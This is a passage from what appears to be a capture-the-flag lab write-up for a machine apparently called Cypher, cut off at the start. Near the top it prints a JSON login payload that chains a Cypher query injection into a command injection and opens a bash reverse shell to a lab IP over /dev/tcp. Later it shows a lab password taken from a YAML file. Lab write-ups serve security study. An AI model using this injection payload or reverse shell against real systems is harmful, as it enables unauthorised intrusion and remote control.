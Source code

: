 into this http POST request json payload (which can be sent using burpsuite):
`json{   "username": "admin' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode(\"127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'\") YIELD statusCode RETURN statusCode AS hash //",   "password": "x" }`

This gives a reverse shell - yay'

# Initial foothold

Immediately cd'ed into home desktop and fount user.txt - however..
<img src="Cypher-media/24bb9d02361375606e0f3e8d8630fb7b58cc3ee4.png"
class="wikilink" alt="Pastedimage20250606142555.png" />
<img src="Cypher-media/82c9fe1bd79f87d1eabb7d3fc006a36246a35ef6.png"
class="wikilink" alt="Pastedimage20250606143048.png" />
darn it..
However.. there is also a yaml file - which has a password:
<img src="Cypher-media/d54b42085f8f463615537552ecd0b13f63228166.png"
class="wikilink" alt="Pastedimage20250606151016.png" />
\`cU4btyib.20xtCMCXkBmerhK
